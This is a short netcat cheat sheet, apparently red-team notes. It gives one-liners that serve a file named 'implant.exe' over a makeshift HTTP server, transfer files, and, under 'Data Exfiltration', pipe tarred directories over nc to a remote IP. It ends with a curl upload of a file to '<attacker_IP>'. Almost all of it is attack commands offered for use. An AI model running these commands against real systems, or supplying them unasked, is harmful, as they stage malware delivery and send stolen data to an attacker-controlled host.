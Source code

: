 # Netcat

## 01 - Simple Web Server

```
$ { echo -ne "HTTP/1.1 200 OK\r\n\r\n"; cat implant.exe; } | nc -lp <PORT> -q 1

$ printf 'HTTP/1.1 200 OK\n\n%s' "$(cat implant.exe)" | nc -lp <PORT> -q 1
```

Run the web server infinitely.

```
$ while true; do { echo -ne "HTTP/1.1 200 OK\r\n\r\n"; cat implant.exe; } | nc -lp <PORT> -q 1; done

$ while true; do printf 'HTTP/1.1 200 OK\n\n%s' "$(cat index.html)" | nc -lp <PORT> -q 1; done
```

## 02 - Transfer Files

Sender

```
$ nc -nvv <IP> 1024 -w 10 < file.txt
```

Receiver

```
$ nc -lnvp 1024 -w 10 > file.txt
```

Even in vice versa just depends how the environment is configured.

## 03 - Data Exfiltration

- Method 1

```
$ nc -l 8080 > directory_data.tar.gz

$ tar cfvz - directory_data | nc -w 15 <IP> 8080 directory_data

$ tar xzf directory_data.tar.gz
```

- Method 2

```
$ nc -l 8080 | tar xzvf -

$ tar czf - directory_data | nc <IP> 8080
```

### 3.1 - HTTP Server

```
$ nc -lnvp 4040 | tee file.txt
```

### 3.2 - Target

```
$ curl -T file.txt http://<attacker_IP>:4040
```